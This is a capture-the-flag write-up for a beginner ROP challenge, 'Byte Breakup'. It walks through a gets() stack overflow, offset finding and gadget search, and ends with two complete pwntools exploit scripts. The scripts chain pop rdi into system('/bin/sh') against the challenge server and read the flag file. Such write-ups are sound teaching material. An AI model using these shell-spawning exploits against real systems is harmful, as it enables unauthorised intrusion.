 
>Welcome to 'Byte Breakup,' where an old program is stuck in a code-cial relationship with a bug—the ex-girlfriend kind! She left a glitchy surprise, and now it's up to you to debug the drama away. Can you charm your way through its defenses and make it sing? Get ready for a byte-sized comedy of errors as you unravel the mysteries left by your digital ex!

>Author: @Inv1s1bl3

>`nc 34.125.199.248 6969`

#pwn #rop #easy #misaligned-stack #alt-solution

![[byte_breakup]]

tools used:
[[ghidra]]
[[gdb-pwndbg]]


```
─$ file byte_breakup 
byte_breakup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0604a3b4295396af9a4553857520acc5b7e09699, for GNU/Linux 3.2.0, not stripped
```

```
| RELRO         | STACK CANARY    | NX          | PIE    |
|---------------|-----------------|-------------|--------|
| Partial RELRO | No canary found | NX enabled  | No PIE |
```


```
└─$ ./byte_breakup 
Welcome to beginner ROP!
Enter the password: 
a
Wrong password

Exiting

```

This gives the clue it's a return oriented programming challenge.

Let's look with ghidra:

```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Welcome to beginner ROP!");
  vuln();
  puts("Exiting");
  return 0;
}
```

```
void vuln(void)

{
  char local_28 [32];
  
  puts("Enter the password: ");
  gets(local_28);
  puts("Wrong password\n");
  return;
}
```

```
void soClose(void)

{
  system("/bin/ls");
  return;
}
```

We can see above the challenge is similar but the win function won't give a shell as /bin/sh is mis spelt.

As with the [[buffer buffet]] challenge, the offset is found using cyclic 50 - with it being 40 bytes to overwrite the return address:
```
cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
````


Let's look at the soClose() function with gdb to see the system(/bin/ls) call and see if we can change it to /bin/sh

`$ python2 -c "print 'a' * 40 + '\x44\x12\x40\x00\x00\x00\x00\x00'" > payload`

Not going to work this way - no way of changing the parameter of the system() call.

Let's try and overwrite the vuln return address to the system() call directly while popping the string `"/bin/sh"` in rdi to see if that works:

```
pwndbg> disassem soClose
Dump of assembler code for function soClose:
   0x0000000000401244 <+0>:     push   rbp
   0x0000000000401245 <+1>:     mov    rbp,rsp
   0x0000000000401248 <+4>:     lea    rax,[rip+0xdfb]        # 0x40204a
   0x000000000040124f <+11>:    mov    rdi,rax
   0x0000000000401252 <+14>:    mov    eax,0x0
   0x0000000000401257 <+19>:    call   0x401050 <system@plt>
   0x000000000040125c <+24>:    nop
   0x000000000040125d <+25>:    pop    rbp
   0x000000000040125e <+26>:    ret
End of assembler dump.
```

Address of system(): `0x401050`

now we need a` pop_rdi; ret;` gadget:

Using `ropper --file byte_breakup`, there is `0x00000000004012bb: pop rdi; ret; `

Let's start building the script: (we have added an extra ret instruction as the stack was misaligned)

https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment

```
#!/usr/bin/env python3

from pwn import *

def start(argv=[], *a, **kw):
    # Start the exploit against the target
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)
  
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './byte_breakup'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'


# io = start()
io = remote("34.125.199.248", "6969")
# Locate the functions/strings we need
system = elf.symbols['system']
binsh = 0x404048
padding = b'a' * 32
rbp = 1
pop_rdi = 0x4012bb
align_stack = 0x401020

# Craft a new payload which puts the "target" address at the correct offset
payload = flat(
    padding,
    rbp,
    align_stack,
    pop_rdi,
    binsh,
    system
)

write('payload', payload)


# Send the payload to a new copy of the process
io.sendlineafter(':', payload)

io.interactive()
```


#alt-solution - posted to discord after CTF but interesting reference for future challenges
```
#!/usr/bin/env python3

from pwn import *

context.log_level = logging.CRITICAL # makes everything quiet

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")
rop = ROP(exe, base=0x400000)
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("34.125.199.248", 6969)

    return r


def main():
    r = conn()
    rop.raw(b'\x00'*40)
    rop.raw(p64(rop.search(move=4)[0]))
    rop.rdi = next(exe.search(b"/bin/sh"))
    rop.call('system')
    r.recvrepeat(timeout=0.2)
    r.sendline(rop.chain())
    log.maybe_hexdump(rop.chain())
    r.recvrepeat(timeout=0.2)
    r.sendline(b'cat /home/flag.txt')
    flag = r.recvall(timeout=0.2).decode()
    context.log_level = logging.INFO 
    log.success(flag)


if __name__ == "__main__":
    main()
```